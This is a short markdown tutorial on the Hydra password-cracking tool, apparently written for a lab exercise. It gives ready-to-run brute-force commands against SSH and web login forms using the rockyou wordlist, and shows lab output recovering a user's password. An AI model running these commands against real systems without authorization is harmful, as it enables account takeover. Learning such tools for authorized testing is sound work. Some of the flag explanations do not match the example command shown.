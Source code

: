# Hydra Basics to advanced

Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.

We can use Hydra to run through a list and 'bruteforce' some authentication service. Imagine trying to manually guess someones password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.  

Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

hydra basic syntax
```
hydra -l <username> -P <password> <protocol>://<ip>
hydra -l username -P password ftp://10.10.10.10
```

- `-l ` used for single username
- `-L ` used for username list
- `-P` used to specify password
- `ss:// <ip> ` and `<ip> ssh` are two ways of defining service
- `-t ` specifies number of threads to used

**SSH Bruteforce using hydra**
```bash
hydra -l username -P /usr/share/wordlists/rockyou.txt ssh://<ip>
```
result 
```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-18 13:56:08
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.41.204:22/
[22][ssh] host: 10.10.41.204   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-18 13:57:06
```
 

**Web post form bruteforce using hydra**

Basic syntax
```
hydra -l <username> -P <wordlist> 10.10.41.204 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

```

- `http-post-form` indicates types of form (post)
- `/login_page` indicates login page url
- `:username` form field which user username should enter
- `^USER^` specifies hydra to use the username
- `password`  form field which password should enter
- `^PASS^` specifies hydra to use password here
- `LOGIN` indicated hydra the login failed message
- `Login failed` login failure message which form returns
- `F=incorrect` if this word appears on page, then password is incorrect
- `-V` verbose output for every attempt

`username` and `password ` parameter can be found in burp																